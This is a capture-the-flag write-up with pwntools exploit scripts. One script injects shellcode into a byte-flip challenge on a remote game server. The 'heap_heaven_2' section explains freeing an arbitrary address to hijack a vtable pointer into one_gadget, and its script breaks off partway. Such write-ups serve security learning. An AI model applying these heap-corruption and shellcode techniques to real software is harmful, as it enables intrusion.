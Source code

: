```python

# io = process('./chall')
# io = process('./modified')
io = remote("arcade.fluxfingers.net", 1807)

io.recvuntil("want to flip")
io.sendline("0xbc")
io.recvuntil("byte-offset")
io.sendline("3")
io.recvuntil("win:")

asm_code = '''
pop rax
pop rdx
pop rax
xor edi, edi
syscall
'''

code = asm(asm_code)
log.info(code +  "length: " + str(len(code)))

payload = decrypt('a'*(0x2e - 7) + code)
payload2 = 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa' + sc
# sleep(0.5)
io.send(payload)
sleep(0.5)
io.sendline(payload2)
io.interactive()
```

### heap_heaven_2
The program mmap a heap whose size is 0x2000, and it provide some choices that we can do on the heap, such as write some bytes on it,  free some of it into tcache or bins(need to use write choice to fake heap on it) and choose a offset on the heap and get the value as a point to print(need to write first also). And the program malloc a heap called state and place a vtable point in it(`*state = vtable`), the vatble has two function point, one is menu, the other is bye(`*vtable=&bye,*(vtable+8)=&menu`), menu function is called every time the loop.

After know that, we can easily leak the address of libc、heap and the mmaped heap by faking some heap and free them into fastbin and unsortbin(i didn't do them by using tcache because my local environment dosen't have tcache).

The free choice dosen't check the address is within the mmaped heap or not. So we can free arbitrary address, our target is state, state is a fastbin of size 0x20，we can hijack state->fd point to a fake heap we free into fastbin before it, vtable places in state->fd, and i pce one_gadget in the fake heap. After that, when the program call menu `*((state->vtable)+8)()`, it will call one_gadget.
```python
from pwn import*

def write_heap(length, offset, data):
  p.recvuntil("[5] : exit\n")
  p.sendline("1")
  p.recvuntil("How much do you want to write?\n")
  p.sendline(str(length))
  p.recvuntil("At which offset?")
  p.sendline(str(offset))
  sleep(1)
  p.send(data)

def free_heap(offset):
  p.recvuntil("[5] : exit\n")
  p.sendline("3")
  p.recvuntil("At which offset do you want to free?\n")
```